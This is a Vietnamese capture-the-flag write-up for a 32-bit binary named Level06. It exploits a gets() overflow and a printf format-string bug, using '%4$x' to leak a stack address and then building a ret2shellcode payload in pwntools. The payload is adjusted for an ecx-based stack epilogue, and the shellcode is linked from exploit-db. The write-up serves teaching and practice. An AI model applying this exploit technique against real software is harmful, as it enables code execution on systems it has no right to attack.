



# Level06

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Level06: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a314b3262c5ee7cd03ebb4dbb5312fca101bf75f, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Kế đến, kiểm tra security của file:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Vậy là toàn bộ chế độ bảo vệ, bao gồm cả NX (No eXecute)-là một tính năng bảo mật giúp ngăn việc thực thi mã từ các vùng bộ nhớ không thể thực thi

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ta có hàm `main()`:


# 2. Ý tưởng

Ở bài này mắc 2 lỗi đó là:

```
gets(s);
```
Lỗ hổng tràn bộ nhớ đệm do hàm `gets()` không kiểm soát số lượng ký tự đầu vào

Tiếp đến:

```
printf(s);
```

Gây ra lỗi `format string`

```
Lỗi format string là một lỗi bảo mật trong việc sử dụng các chuỗi định dạng trong ngôn ngữ lập trình, như C. Lỗi này xảy ra khi không kiểm soát đủ việc xử lý các chuỗi định dạng người dùng nhập vào hoặc lấy từ bên ngoài, dẫn đến việc tấn công bằng cách truyền các chuỗi định dạng độc hại
```

Do ở bài này không có các hàm lấy flag như những bài trước cũng không in sẵn ra địa chỉ của stack nên mình sẽ sử dụng lỗi `format string` để leak được địa chỉ stack và sử dụng tiếp hàm `gets()` để ghi đè `return_addr` bằng địa chỉ của shellcode

-> Sử dụng kỹ thuật `ret2shellcode`

# 3. Khai thác

Đầu tiên, do NX đã bị tắt, ta sẽ xem vùng nhớ nào có quyền thực thi bằng câu lệnh `vmmap` trong `gdb`


Vậy là vùng nhớ có quyền thực thi là stack mà biến `s` được lưu trên stack cộng thêm việc ta có thể sử dụng lỗi format string khi sử dụng 2 hàm đầu tiên

```
gets(s);
printf(s);
```

2 hàm này để leak ra địa chỉ stack để tính toán địa chỉ shellcode

Ta sẽ sử dụng `%x` để in ra màn hình các giá trị trên các địa chỉ của stack



Qua đây cho thấy địa chỉ stack leak được ra là ở vị trí thứ 4 trên stack

-> Mã khai thác để leak stack là:

```
payload = b"%4$x"                   #in ra giá trị tại vị trí thứ 4 trên stack
p.sendline(payload)
stack_leak = int(p.recv(8),16)      #lấy 8 bytes đầu tiên được in ra của chương trình rồi chuyển nó từ dạng hex sang dạng int và lưu vào biến stack_leak
print(hex(stack_leak))              #in ra địa chỉ stack ta vừa leak được
```

- Tìm địa chỉ của biến `s` và shellcode bằng gdb

Trong gdb. Sử dụng lệnh `search %4$x` để tìm chuỗi mình nhập vào ở địa chỉ nào 


Ở đây, địa chỉ leak ra là `0xffe04180` còn địa chỉ của biến `s` = `0xffe0414c`

-> Địa chỉ biến `s` = địa chỉ leak ra - `52`

Tính toán địa chỉ của shellcode

Do shellcode ta nhập vào ở ngay phía sau `return_addr` = `[ebp+4[]` mà biến `s` = [ebp-0xC]

-> Địa chỉ shellcode = địa chỉ biến `s` + 16

# Đoạn quan trọng:

Do không return được đúng địa chỉ shellcode, mình đã xem lại luồng thực thi bằng `gdb` để ý đến đoạn cuối



```
mov    ecx,DWORD PTR [ebp-0x4]
leave
lea    esp,[ecx-0x4]
ret
```

Ở đoạn mã này cho thấy, đầu tiên chương trình sẽ đưa giá trị tại địa chỉ `ebp-0x4` vào thanh ghi `ecx` 

Tiếp sau đó đưa giá trị tại `ecx-0x4` vào thanh ghi `esp`

Cuối cùng `return_addr` chính là địa chỉ của `esp` khi ấy

Tổng kết sẽ như sau: `[[ebp-0x4] - 0x4]` = `esp`

- Tính toán trên stack

Ta sẽ lưu 1 địa chỉ X vào `ebp-0x4`

Chương trình sẽ lấy giá trị tại (X - 4) làm return_addr 

Với

```
+ Địa chỉ biến `s` = địa chỉ leak ra - `52` 
+ Địa chỉ shellcode = địa chỉ biến `s` + 16
```

đã tính toán ở trên, ta có mã thực thi sau:

```
s = stack_leak - 52 
shellcode_addr = s + 16
payload = b"a"*4 + p32(shellcode_addr) + p32(s+8) + b"a"*4 + shellcode
```


Giải thích đoạn này:

Đầu tiên chương trình sẽ đưa giá trị tại địa chỉ `ebp-0x4` vào thanh ghi `ecx` mà `ebp-0x4` chính là tại vị trí `+ p32(s+8) +` và giá trị tại đây là `p32(s+8)` này sẽ được lưu vào thanh ghi `ecx`

Tiếp theo, giá trị `ecx-4` chính là vị trí tại `+ p32(shellcode_addr) +` mà giá trị tại đây chính là địa chỉ shellcode và lưu tại `esp`, sau đó chương trình sẽ ret vào địa chỉ này và nó chính là địa chỉ shellcode

Shellcode ở link: https://www.exploit-db.com/exploits/42428


